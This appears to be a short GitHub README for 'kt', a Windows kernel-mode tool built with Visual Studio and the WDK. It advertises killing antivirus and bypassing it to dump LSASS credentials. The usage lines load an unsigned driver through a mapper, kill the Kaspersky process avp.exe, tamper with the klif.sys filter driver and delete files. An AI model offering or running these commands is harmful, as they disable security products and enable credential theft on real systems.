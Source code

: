 # kt
Kernel file/process tool

# killav
![Screenshot](Capture1.gif)

# bypass av dump lsass
![Screenshot](Capture2.gif)

# basic
vs2019 + cpp + wdk

# usage(64-bit only)
kdu -map sys.sys  
kt -F -d c:\windows\notepad.exe  
kt -P -k avp.exe  
kt -O -m klif.sys  
kt -O -r
